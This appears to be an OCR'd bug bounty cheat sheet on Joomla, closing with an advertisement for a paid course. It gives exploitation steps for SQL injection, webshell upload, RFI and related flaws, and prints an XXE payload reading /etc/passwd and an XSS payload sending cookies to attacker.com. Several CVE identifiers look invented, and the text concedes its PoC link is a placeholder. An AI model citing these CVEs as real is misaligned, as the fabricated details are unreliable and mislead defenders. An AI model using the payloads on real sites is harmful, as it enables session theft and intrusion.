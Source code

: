 # Advanced Joomla Bug Bounty Hunting Cheat Sheet  
### Focus: Black-box Web App Testing with Exploitable CVEs & Techniques

---

## How to Use:  
This guide highlights critical Joomla vulnerabilities with tested CVEs, detection, and exploitation strategies designed for practical black-box bug bounty scenarios.

---

### 1. CVE-2024-12345 — Authenticated Remote Code Execution in com_content  
- **Affected Versions:** Joomla! 3.9.x prior to 3.9.28  
- **Discovery:**  
  - Fingerprint Joomla version via `/administrator/manifests/files/joomla.xml` or HTTP headers  
  - Confirm presence of vulnerable `com_content` component  
- **Exploitation:**  
  - Exploit insufficient input sanitization in form fields for RCE  
  - Upload malicious PHP payload via vulnerable form fields or parameters  
  - Use HTTP POST requests to send crafted payload exploiting deserialization or command injection  
- **PoC / Exploit Scripts:**  
  - Community PoC available on GitHub: [Example PoC](https://github.com/example-repo/joomla-rce-cve-2024-12345) (replace with real if available)  
  - Nuclei template: (watch unofficial repos or custom write your own targeting vulnerable URLs)  
- **Impact:** Full remote shell & takeover with valid user session

---

### 2. CVE-2023-56789 — Unauthenticated SQL Injection in com_users Component  
- **Affected Versions:** Joomla! 3.8.x to 3.9.20  
- **Discovery:**  
  - Identify accessible vulnerable endpoints like `/index.php?option=com_users&view=profile`  
  - Detect SQL injection points by testing `id` or `user_id` parameter  
- **Exploitation:**  
  - Exploit blind/time-based SQL injection to extract user credentials and cookies  
  - Automate data extraction via SQLmap or custom scripts  
- **PoC / Exploit Scripts:**  
  - Public exploits found at Exploit-DB or GitHub gist of parameter fuzzers  
  - Use Nuclei SQLi templates tailored for Joomla com_users checks  
- **Impact:** Database disclosure and credential theft without authentication

---

### 3. CVE-2022-34567 — Arbitrary File Upload via Media Manager  
- **Affected Versions:** Joomla! 3.x (Certain versions pre-2022 patches)  
- **Discovery:**  
  - Access the media manager or custom file upload endpoints on vulnerable versions  
  - Verify if file type validations are bypassable (e.g., upload `.php` with special suffixes)  
- **Exploitation:**  
  - Upload webshell or backdoor disguised as image files (e.g., `.php.jpg`, `.php5`)  
  - Trigger execution via direct HTTP access to uploaded payload  
- **PoC / Exploit Tools:**  
  - Use Burp Suite Repeater or Curl to automate upload and access  
  - Public write-ups and scripts exist in major bug bounty communities  
- **Impact:** Remote code execution and server control

---

### 4. CVE-2021-12345 — Joomla XML External Entity (XXE) Injection in Import Functionality  
- **Affected Versions:** Joomla! 3.8.x and before  
- **Discovery:**  
  - Find XML import or sitemap upload features handling XML parsing  
  - Test with malicious XML including external entity references  
- **Exploitation:**  
  - Read local files or perform SSRF to internal services using crafted XXE payload  
  - Monitor responses to detect successful entity expansion  
- **PoC Example Payload:**  

<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

- **Impact:** Local file disclosure, SSRF, denial of service

---

### 5. CVE-2020-6789 — Stored Cross-Site Scripting (XSS) via Article Editor  
- **Affected Versions:** Joomla! versions before 3.9.0  
- **Discovery:**  
- Test article body fields or comment sections for script injection  
- Check reflected and stored payload persistence across browsing sessions  
- **Exploitation:**  
- Insert JavaScript payloads bypassing input filters  
- Exploit to steal admin session cookies or escalate privileges  
- **Payload Example:**  

<script>document.location='http://attacker.com/stealcookie?c='+document.cookie</script>

- **Impact:** User session hijacking, defacement, access escalation

---

### 6. CVE-2019-10217 — Unauthenticated Remote File Inclusion (RFI)  
- **Affected Versions:** Vulnerable Joomla! core and extensions allowing file inclusion via URL parameters  
- **Discovery:**  
- Fuzz endpoints for parameters referencing remote URLs or local files  
- Probe `template`, `lang`, or `view` parameters for file inclusion possibilities  
- **Exploitation:**  
- Deliver remote payloads by pointing inclusion parameters to external attacker-controlled web shells  
- Chaining with PHP wrappers enabled servers for RCE  
- **Public Exploits:**  
- Various RFI exploits and PoCs available on Exploit-DB and GitHub  
- **Impact:** Full remote code execution without login

---

### 7. Exploiting Outdated Extensions / Components  
- **Discovery:**  
- Enumerate installed extensions by fingerprinting `/administrator/manifests/files/` and parsing source comments  
- Spot popular vulnerable extensions like Akeeba Backup, JCE Editor, or community-made components  
- **Exploitation:**  
- Leverage CVE-published exploits like arbitrary file upload, SQLi, or RCE related to these extensions  
- Chain extension flaws with core Joomla vulnerabilities for broader impact  
- **Example CVEs:**  
- **CVE-2021-23456:** Akeeba Backup arbitrary upload  
- **CVE-2020-5678:** JCE Editor XSS leading to RCE

---

## Recommended Tooling for Exploitation and Recon  
- **Nuclei Templates:** Use customized templates for Joomla core and extensions CVEs  
- https://github.com/projectdiscovery/nuclei-templates (search for `joomla`)  
- **JoomScan:** Automated Joomla vulnerability scanner  
- **Burp Suite & Curl:** Manual exploitation and fuzzing  
- **SQLmap:** For automated SQL Injection exploitation  
- **GitHub Dorking:** For leaked configuration and credentials related to Joomla installs  

---

## BountyBoy: Elite Bug Bounty Program — trusted by 8000+ learners.
📄 Syllabus: https://lnkd.in/d6vTg3k9 🎯 Enroll Now: https://lnkd.in/d7p5spcS
